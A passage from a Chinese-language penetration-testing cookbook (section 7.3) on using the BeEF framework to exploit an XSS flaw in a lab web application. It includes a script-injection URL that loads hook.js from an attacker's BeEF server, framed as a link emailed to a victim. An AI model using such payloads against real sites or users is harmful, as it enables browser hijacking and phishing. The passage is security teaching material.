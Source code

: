 ## 7.3 使用 BeEF 利用 XSS

BeEF，即浏览器利用框架，是个专注于客户端攻击向量的框架，特别是 Web 浏览器的攻击。

这个秘籍中，我们会利用 XSS 漏洞并使用 BeEF 来控制客户端浏览器。

### 准备

在开始之前，我们需要确保启动了 BeEF 服务，并且能够访问`http://127.0.0.1:3000/ui/panel`（使用`beef/beef`身份标识）。

1.  Kali 的默认 BeEF 服务不能工作。所以我们不能仅仅运行`beef-xss`让它启动。我们需要从安装目录中启动它，像这样：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```

    ![](../img/ad3fb8049ce74a2f4e516b961ed3ffab.png)

2.  现在，浏览`http://127.0.0.1:3000/ui/panel`并使用`beef`作为用户名和密码。如果有效，我们就准备好了。

### 操作步骤

1.  BeEF 需要客户端浏览器调用`hook.js`文件，这用于将浏览器勾到我们的 BeEF 服务器，我们会使用一个存在 XSS 漏洞的应用来使用户调用它。为了尝试简单的 XSS 测试，浏览`http://192.168.56.102/bodgeit/search.jsp?q=%3Cscript%3Ealert%28 1%29%3C%2Fscript%3E`。

2.  这就是存在 XSS 漏洞的应用，所以现在我们需要修改脚本来调用`hook.js`。想象一下你就是受害者，你已经收到了包含`http://192.168.56.102/bodgeit/search.jsp?q=<script src="http://192.168.56.1:3000/hook.js"></script>`链接的邮件，你打算浏览器它来看看，像这样：

    ![](../img/07675d38f42809c6ec3457ed1ae13762.png)
